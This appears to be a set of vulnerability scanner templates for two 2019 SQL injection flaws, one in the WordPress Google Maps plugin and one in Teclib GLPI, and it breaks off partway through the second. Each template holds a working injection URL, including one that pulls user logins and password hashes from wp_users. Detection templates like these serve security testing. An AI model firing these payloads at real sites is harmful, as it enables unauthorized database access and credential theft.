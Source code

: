 # WordPress Google Maps <7.11.18 - SQL Injection
## Description
- WordPress Google Maps plugin before 7.11.18 contains a SQL injection vulnerability. The plugin includes /class.rest-api.php in the REST API and does not sanitize field names before a SELECT statement. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve,cve2019,wp,wp-plugin,unauth,sqli,wordpress,googlemaps,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/?rest_route=/wpgmza/v1/markers&filter=%7b%7d&fields=%2a%20from%20wp_users--%20-
### Matchers

**Type - word**
- part - body
- words
    1. "user_login"
    2. "user_pass"
    3. "user_nicename"
- condition - and

**Type - word**
- part - header
- words
    1. application/json

**Type - status**
- status
    1. 200

---
# Teclib GLPI <= 9.3.3 - Unauthenticated SQL Injection
## Description
- Teclib GLPI <= 9.3.3 exposes a script (/scripts/unlock_tasks.php) that incorrectly sanitizes user controlled data before using it in SQL queries. Thus, an attacker could abuse the affected feature to alter the semantic original SQL query and retrieve database records.
- severity - critical
- tags - cve,cve2019,glpi,sqli,injection
## Requests
- Method - GET
### URL
- {{BaseURL}}/glpi/scripts/unlock_tasks.php?cycle=1%20UNION%20ALL%20SELECT%201,(@@version)--%20&only_tasks=1
- {{BaseURL}}/scripts/unlock_tasks.php?cycle=1%20UNION%20ALL%20SELECT%201,(@@version)--%20&only_tasks=1
### Matchers
